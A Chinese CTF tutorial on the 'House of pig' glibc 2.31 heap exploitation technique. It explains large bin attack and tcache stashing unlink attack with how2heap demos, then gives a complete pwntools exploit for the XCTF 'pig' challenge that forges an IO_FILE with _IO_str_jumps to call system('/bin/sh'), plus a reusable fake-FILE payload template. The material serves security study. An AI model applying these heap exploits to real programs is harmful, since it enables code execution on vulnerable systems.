






多手法联合IO利用之House of pig 学习利用

- - -

# 多手法联合IO利用之House of pig 学习利用

## 简介

House of pig是通过libc2.31下的large bin attack和io\_file结构体利用与tcache stashing unlink attack一起组合利用的方法

主要适用于程序中仅有calloc函数而没有malloc函数利用的情况

## 前置知识

### 1.largebin attack

largebin attack的主要攻击效果就是能够在任意地址写一个堆地址，造成任意地址写或者任意地址分配

在ctfwiki上有很详细的介绍：[Large Bin Attack - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/large-bin-attack/)

可以通过how2heap的源码一步步调试来了解原理

```plain
// 主要漏洞在这里
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

    [...]

              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;

    [...]

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

// gcc large_bin_attack.c -o large_bin_attack -g
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);

    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
                    " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

这里我们只介绍各版本中largebin attack的效果

#### libc2.23

效果：向任意两个地址写入分别写入一个堆地址

具体利用思路：准备好两个大小不同的largebin chunk，先将size较小的chunk放入largebin中，较大的放在unsortedbin中，改 size 较小的chunk的bk指针为**目标地址1-0x10** , bk\_nextsize为**目标地址2-0x20**，然后将size较大的chunk链入large bin中，最终效果是使得较大chunk的bk指针指向目标地值1-0x10，bk\_nextsize指针指向目标地址2-0x20 ，同时在两个目标地址处写上较大chunk的地址，

#### libc2.31

参考：[glibc-2.29后large bin attack 原理](https://www.anquanke.com/post/id/189848#h2-1)

更新

glibc2.30对于unsortedbin和largebin的检查都更加严格了，unsortedbin attack直接寿终正寝了，largebin attack的效果也被腰斩了一半

libc2.30 largebin 新增检查的源码

```plain
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd)) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");

if (bck->fd != fwd) 
    malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

分析源码我们可以发现这个检查主要是对当较大的chunk（大于largebin中原有的chunk）进入largebin时会有对于bk\_nextsize的检测导致在libc2.23下常用的largebin attack的攻击手法失效了

利用思路：

这个检查只限定较大chunk进入largebin中的情况，所以我们可以向largebin中链入较小的chunk，同时修改原有的size比较大的chunk达到攻击效果，不过此时只能修改bk\_nextsize指针。

**此时的攻击效果为向一个任意地址写入堆地址（之前是向两个堆地址）**

### 2.Tcache Stashing Unlink Attack

漏洞来源

```plain
// 获取 small bin 中倒数第二个 chunk 。
bck = victim->bk;
// 检查 bck->fd 是不是 victim，防止伪造
if ( __glibc_unlikely( bck->fd != victim ) )
    malloc_printerr ("malloc(): smallbin double linked list corrupted");
// 设置 victim 对应的 inuse 位
set_inuse_bit_at_offset (victim, nb);
// 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
bin->bk = bck;
bck->fd = bin;
```

漏洞利用

通过uaf等漏洞，将smallbin链表中的最后一个chunk的bk指针改为任意地址，然后绕过对应的\_\_glibc\_unlikely( bck->fd != victim )检查就可以在smallbin链表中加入一个任意地址的堆块进而分配出对应地址的chunk

在此基础上当存在以下条件时，便可以实现Tcache Stashing Unlink Attack

1.  能控制 Small Bin Chunk 的 bk 指针。
2.  程序可以越过Tache取Chunk。(使用calloc即可做到)
3.  程序至少可以分配两种不同大小且大小为unsorted bin的Chunk

calloc函数

calloc是一个特殊的堆分配函数，用calloc函数分配时会绕过tcachebin直接分配出fastbin等位置的chunk

漏洞原理：参考文章[Tcache Stashing Unlink Attack利用思路](https://www.anquanke.com/post/id/198173)

虽然在smallbin中有检测机制，但是由于引入了tcachebin后，tcachebin中的函数有绝对优先权，一般来说**我们不能越过Tcache向SmallBin中填入Chunk，也不能越过Tcache从SmallBin中取出Chunk**。（除非Tcache已经处于FULL状态）

然而，我们如果要在这里启动攻击，那么要求就SmallBin中至少有两个Chunk(否则无法进入While中的if语句块)，**同时要求Tcache处于非空状态。**

那样就产生了矛盾，导致这个漏洞看似无法利用。

但是calloc函数有一个很有趣的特性，它不会从Tcache拿Chunk，因此可以越过第一条矛盾“不能越过Tcache从SmallBin中取出Chunk”。

然后是Unsorted Bin的last remainder基址，当申请的Chunk大于Unsorted Bin中Chunk的大小且其为Unsorted Bin中的唯一Chunk时，该Chunk不会进入Tcache。

那么，当Tcache存在两个以上的空位时，程序会将我们的fake chunk置入Tcache

### 示例：how2heap中的Tcache Stashing Unlink Attack

源代码：

```plain
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);

    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc-2.27, glibc-2.29 and glibc-2.31.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90

    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
    return 0;
}
```

首先申请9个堆块并free其中7个

```plain
//now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }
    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021215941-14e65fb2-701a-1.png)

剩下两个进入到unsortedbin中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021215956-1df7fbf6-701a-1.png)

然后malloc一个更大的堆块使unsortedbin chunk进入smallbin中

```plain
//convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");
malloc(0xa0);// size > 0x90
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021220016-29db2ab0-701a-1.png)

随后malloc两个0x90大小的chunk使tcachebin中只留下5个chunk

```plain
//now 5 tcache bins
printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

malloc(0x90);
malloc(0x90);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021220023-2dedc43c-701a-1.png)

然后把smallbin中的bk指针改为一个栈地址

```plain
printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

//change victim->bck
/*VULNERABILITY*/
chunk_lis[2][1] = (unsigned long)stack_var;
/*VULNERABILITY*/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021220029-31938108-701a-1.png)

用calloc触发Tcache Stashing Unlink Attack

```plain
//trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");
calloc(1,0x90);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231021220037-36223962-701a-1.png)

可以看到将一个栈上的fake chunk置入了unsortedbin中

再malloc一次就可以在该地址分配一个chunk

```plain
printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);
assert(target == &stack_var[2]);
```

## 利用条件

-   UAF
-   堆溢出
-   程序中用calloc函数代替malloc函数
-   IO利用的刚需：当 libc 执行abort流程时&程序显式调用 exit &程序能通过主函数返回。

## 利用思路

1.  利用UAF等漏洞泄露libc和heap基地址
    
2.  进行tcachebin布置，在tcachebin中放入5个chunk（即预留两个空位）
    
3.  在smallbin中放入两个大小相同的chunk，为tcache stashing unlink attack做准备
    
4.  进行largebin attack，将一个堆地址写入到free\_hook-0x8的位置
    
5.  利用tcache stashing unlink attack，将我们构造的一个fake chunk（改smallbin chunk的bk指针为free\_hook-0x10）链入tcachebin中
    
    注：此时这个fakechunk无法取出
    
6.  再进行一次large bin attack，将一个堆地址写入IO\_list\_all，构造fake IO来劫持IO\_file结构体
    
    \#### 重点
    
    劫持io\_file结构体将 vtable 由 **\_IO\_file\_jumps 修改为 \_IO\_str\_jumps**，使程序执行流时原本要调用 IO\_file\_overflow 的时候，就会转而调用 **IO\_str\_overflow**
    
    IO\_str\_overflow源码
    
    ```plain
    int
    _IO_str_overflow (FILE *fp, int c)
    {
      int flush_only = c == EOF;
      size_t pos;
      if (fp->_flags & _IO_NO_WRITES)
          return flush_only ? 0 : EOF;
      if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
        {
          fp->_flags |= _IO_CURRENTLY_PUTTING;
          fp->_IO_write_ptr = fp->_IO_read_ptr;
          fp->_IO_read_ptr = fp->_IO_read_end;
        }
      pos = fp->_IO_write_ptr - fp->_IO_write_base;
      if (pos >= (size_t) (_IO_blen (fp) + flush_only))
        {
          if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
     return EOF;
          else
     {
       char *new_buf;
       char *old_buf = fp->_IO_buf_base;
       size_t old_blen = _IO_blen (fp);
       size_t new_size = 2 * old_blen + 100;
       if (new_size < old_blen)
         return EOF;
       new_buf = malloc (new_size);
       if (new_buf == NULL)
         {
           /*      __ferror(fp) = 1; */
           return EOF;
         }
       if (old_buf)
         {
           memcpy (new_buf, old_buf, old_blen);
           free (old_buf);
           /* Make sure _IO_setb won't try to delete _IO_buf_base. */
           fp->_IO_buf_base = NULL;
         }
       memset (new_buf + old_blen, '\0', new_size - old_blen);
     _IO_setb (fp, new_buf, new_buf + new_size, 1);
      fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
      fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
      fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
      fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
    
      fp->_IO_write_base = new_buf;
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }
    if (!flush_only)
        *fp->_IO_write_ptr++ = (unsigned char) c;
      if (fp->_IO_write_ptr > fp->_IO_read_end)
        fp->_IO_read_end = fp->_IO_write_ptr;
      return c;
    }
    ```
    
    分析源码，IO\_str\_overflow函数功能大概是这样的：
    
    首先是计算了 \_IO\_FILE结构体中缓冲区的长度len = \_IO\_buf\_end - \_IO\_buf\_base，然后使用malloc申请一块空间，这块空间的大小为len \* 2 + 100，然后调用了memcpy函数将**old\_buf**中的内容复制到**new\_buf**中，最后调用free，其参数是old\_buf
    
    那么我们便有以下构造思路：
    
    计算好`len`的值好让`malloc`能够分配到tcache中伪造的fake chunk，随后让`_old_buf`指向一个写有`system`函数地址的空间，然后通过`memcpy`函数将其复制到`__free_hook`中，再让`_old_buf`开头写有`/bin/sh`即可执行`system("/bin/sh")`。
    

## 例题：xctf final house\_of\_pig

这道题是用c++编写的，本人不是很看得懂伪代码555，所以这里搬运一下其他师傅的文章

[house of pig一个新的堆利用详解](https://www.anquanke.com/post/id/242640)

[glibc 2.31 pwn——house of pig原题分析与示例程序](https://blog.csdn.net/qq_54218833/article/details/128575508?ops_request_misc=%7B%22request%5Fid%22%3A%22169789028516800185840343%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=169789028516800185840343&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-128575508-null-null.142^v96^pc_search_result_base2&utm_term=House%20of%20pig%E4%BE%8B%E9%A2%98&spm=1018.2226.3001.4187)

[House of Pig - CTF Wiki](https://docs.aiitoj.cn/pwn/linux/user-mode/heap/ptmalloc2/house-of-pig/)

exp如下

```plain
from pwn import *

context.log_level = 'debug'

io = process('./pig')
# io = remote('182.92.203.154', 35264)
elf = ELF('./pig')
libc = elf.libc

rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sn = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
irt = lambda            : io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s            : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data        : u32(data.ljust(4, '\x00'))
uu64 = lambda data        : u64(data.ljust(8, '\x00'))


def Menu(cmd):
    sla('Choice: ', str(cmd))

def Add(size, content):
    Menu(1)
    sla('size: ', str(size))
    sla('message: ', content)

def Show(idx):
    Menu(2)
    sla('index: ', str(idx))

def Edit(idx, content):
    Menu(3)
    sla('index: ', str(idx))
    sa('message: ', content)

def Del(idx):
    Menu(4)
    sla('index: ', str(idx))

def Change(user):
    Menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')


#----- prepare tcache_stashing_unlink_attack
Change(2)
for x in xrange(5):
    Add(0x90, 'B'*0x28) # B0~B4
    Del(x)    # B0~B4

Change(1)
Add(0x150, 'A'*0x68) # A0
for x in xrange(7):
    Add(0x150, 'A'*0x68) # A1~A7
    Del(1+x)
Del(0)

Change(2)
Add(0xb0, 'B'*0x28) # B5 split 0x160 to 0xc0 and 0xa0

Change(1)
Add(0x180, 'A'*0x78) # A8
for x in xrange(7):
    Add(0x180, 'A'*0x78) # A9~A15
    Del(9+x)
Del(8)

Change(2)
Add(0xe0, 'B'*0x38) # B6 split 0x190 to 0xf0 and 0xa0

#----- leak libc_base and heap_base
Change(1)
Add(0x430, 'A'*0x158) # A16

Change(2)
Add(0xf0, 'B'*0x48) # B7

Change(1)
Del(16)

Change(2)
Add(0x440, 'B'*0x158) # B8

Change(1)
Show(16)
ru('message is: ')
libc_base = uu64(rl()) - 0x1ebfe0
lg('libc_base')

Edit(16, 'A'*0xf+'\n')
Show(16)
ru('message is: '+'A'*0xf+'\n')
heap_base = uu64(rl()) - 0x13940
lg('heap_base')


#----- first largebin_attack
Edit(16, 2*p64(libc_base+0x1ebfe0) + '\n') # recover
Add(0x430, 'A'*0x158) # A17
Add(0x430, 'A'*0x158) # A18
Add(0x430, 'A'*0x158) # A19

Change(2)
Del(8)
Add(0x450, 'B'*0x168) # B9

Change(1)
Del(17)

Change(2)
free_hook = libc_base + libc.sym['__free_hook']
Edit(8, p64(0) + p64(free_hook-0x28) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C0 triger largebin_attack, write a heap addr to __free_hook-8

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- second largebin_attack
Change(3)
Add(0x380, 'C'*0x118) # C1

Change(1)
Del(19)

Change(2)
IO_list_all = libc_base + libc.sym['_IO_list_all']
Edit(8, p64(0) + p64(IO_list_all-0x20) + '\n')

Change(3)
Add(0xa0, 'C'*0x28) # C2 triger largebin_attack, write a heap addr to _IO_list_all

Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- tcache_stashing_unlink_attack and FILE attack
Change(1)
payload = 'A'*0x50 + p64(heap_base+0x12280) + p64(free_hook-0x20)
Edit(8, payload + '\n')

Change(3)
payload = '\x00'*0x18 + p64(heap_base+0x147c0)
payload = payload.ljust(0x158, '\x00')
Add(0x440, payload) # C3 change fake FILE _chain
Add(0x90, 'C'*0x28) # C4 triger tcache_stashing_unlink_attack, put the chunk of __free_hook into tcache

IO_str_vtable = libc_base + 0x1ED560
system_addr = libc_base + libc.sym['system']
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
sa('Gift:', payload)


Menu(5)
sla('user:\n', '')

irt()
```

这里的fake IO构造也是个重点，偏移模版可以记一记

```plain
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
```

**payload构造原理：**

根据io\_str\_overflow申请chunk的size计算规则：

new\_buf = malloc (2 \* ((fp)-> \_IO\_buf\_end - (fp)-> \_IO\_buf\_base) + 100)

根据malloc的申请规则，会申请0xa0的chunk，此时0xa0的tcache中的第一个chunk为free\_hook-0x10。

malloc申请完chunk后，如果 \_IO\_buf\_base指向的空间有数据的话就会将其中的数据拷贝到new\_buf中，也就是free\_hook-0x10， \_IO\_buf\_base指向位置的数据为/bin/sh和system的地址。

因此最终会将/bin/sh复制到free\_hook-0x10，将两个system复制到free\_hook-0x8和free\_hook，最终调用free即可触发system('/bin/sh')。

## 总结

House of pig的学习过后算是真正迈出了中高版本的IO\_FILE利用学习的第一步，核心思想还是一样：伪造IO\_FILE劫持程序执行流以getshell。迈入高版本后劫持方法由unsortedbin attack变为了largebin attack，同时也引入了更多的新机制新技巧，伪造IO\_FILE的方式也越来越多样，IO学习任重道远，继续加油。
